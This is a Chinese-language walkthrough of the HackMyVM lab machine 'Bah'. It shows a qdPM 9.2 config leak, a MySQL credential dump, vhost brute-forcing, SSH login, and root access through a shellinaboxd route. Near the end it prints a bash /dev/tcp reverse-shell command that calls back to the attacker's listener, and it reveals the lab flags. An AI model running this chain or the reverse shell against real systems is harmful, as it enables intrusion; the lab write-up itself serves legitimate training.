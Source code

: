 # Bah

2024-11-22 https://hackmyvm.eu/machines/machine.php?vm=Bah

## IP

192.168.5.39

## Scan

```
PORT     STATE SERVICE
80/tcp   open  http
3306/tcp open  mysql
```

访问 80 web 出现的是登陆框，显示的 CMS 是 qdPM 9.2 ，先进行目录扫描看看有什么内容：

```
http://192.168.5.39/install
http://192.168.5.39/js
http://192.168.5.39/check.php
```

暂时没发现可利用的页面，通过 searchsploit 搜索，发现 9.2 存在数据库密码泄露：http://192.168.5.39/core/config/databases.yml

```
all:
  doctrine:
    class: sfDoctrineDatabase
    param:
      dsn: 'mysql:dbname=qpm;host=localhost'
      profiler: false
      username: qpmadmin
      password: "<?php echo urlencode('qpmpazzw') ; ?>"
      attributes:
        quote_identifier: true
```

尝试连接 3306：

```
mysql -h 192.168.5.39 -u qpmadmin -p
密码输入: qpmpazzw
```

进入数据库后，发现 hidden 数据库，里面有 2 个表: url 和 users

```
MariaDB [hidden]> select * from users;
+----+---------+---------------------+
| id | user    | password            |
+----+---------+---------------------+
|  1 | jwick   | Ihaveafuckingpencil |
|  2 | rocio   | Ihaveaflower        |
|  3 | luna    | Ihavealover         |
|  4 | ellie   | Ihaveapassword      |
|  5 | camila  | Ihaveacar           |
|  6 | mia     | IhaveNOTHING        |
|  7 | noa     | Ihaveflow           |
|  8 | nova    | Ihavevodka          |
|  9 | violeta | Ihaveroot           |
+----+---------+---------------------+
```

另外一个表中发现的内容：

```
MariaDB [hidden]> select * from url;
+----+-------------------------+
| id | url                     |
+----+-------------------------+
|  1 | http://portal.bah.hmv   |
|  2 | http://imagine.bah.hmv  |
|  3 | http://ssh.bah.hmv      |
|  4 | http://dev.bah.hmv      |
|  5 | http://party.bah.hmv    |
|  6 | http://ass.bah.hmv      |
|  7 | http://here.bah.hmv     |
|  8 | http://hackme.bah.hmv   |
|  9 | http://telnet.bah.hmv   |
| 10 | http://console.bah.hmv  |
| 11 | http://tmux.bah.hmv     |
| 12 | http://dark.bah.hmv     |
| 13 | http://terminal.bah.hmv |
+----+-------------------------+
```

访问 80 端口没发现什么信息，登陆窗口使用上面得到的 user 信息也不能登陆，尝试爆破以下 vhost，看看有什么：

```
gobuster vhost -u http://192.168.5.39 -w hosts -k

Found: party.bah.hmv Status: 200 [Size: 5216]
Found: console.bah.hmv Status: 200 [Size: 5659]
Found: hackme.bah.hmv Status: 200 [Size: 5657]
Found: imagine.bah.hmv Status: 200 [Size: 5659]
Found: telnet.bah.hmv Status: 200 [Size: 5657]
Found: portal.bah.hmv Status: 200 [Size: 5657]
Found: here.bah.hmv Status: 200 [Size: 5653]
Found: ssh.bah.hmv Status: 200 [Size: 5651]
Found: dev.bah.hmv Status: 200 [Size: 5651]
Found: ass.bah.hmv Status: 200 [Size: 5651]
Found: tmux.bah.hmv Status: 200 [Size: 5653]
Found: dark.bah.hmv Status: 200 [Size: 5653]
Found: terminal.bah.hmv Status: 200 [Size: 5661]
```

发现 party.bah.hmv 明显与其他不同，将起写入到 hosts 文件中，再次访问 http://party.bah.hmv/ 发现是一个 ssh 登陆页面，用上面得到的 user 信息尝试挨个登陆，发现 rocio/Ihaveaflower 能够登陆，并且得到了 user flag：

```
HdsaMoiuVdsaeqw
```

发现了一个非自带的 SGID 程序 /usr/bin/write.ul 但是是 tty 组的，没什么用，其他也没发现什么，最后用 pspy 看看后来任务有什么可利用的地方：

```
/usr/bin/shellinaboxd -q --background=/var/run/shellinaboxd.pid -c /var/lib/shellinabox -p 4200 -u shellinabox -g shellinabox --user-css Black on White:+/etc/shellinabox/options-enabled/00+Black on White.css,White On Black:-/etc/shellinabox/options-enabled/00_White On Black.css;Color Terminal:+/etc/shellinabox/options-enabled/01+Color Terminal.css,Monochrome:-/etc/shellinabox/options-enabled/01_Monochrome.css --no-beep --disable-ssl --localhost-only -s/:LOGIN -s /devel:root:root:/:/tmp/dev
```

shellinaboxd 的作用是 Starts an HTTP server that serves terminal emulators to AJAX enabled browsers. 当访问 /devel 时 会以 root 用户身份去执行/tmp/dev 中的命令，所以创建 /tmp/dev/脚本执行反弹命令：

```
/bin/bash -c '/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1'

curl http://party.bah.hmv/devel/
```

最终得到了反弹的 root shell，root flag 为：

```
HMVssssshell323
```
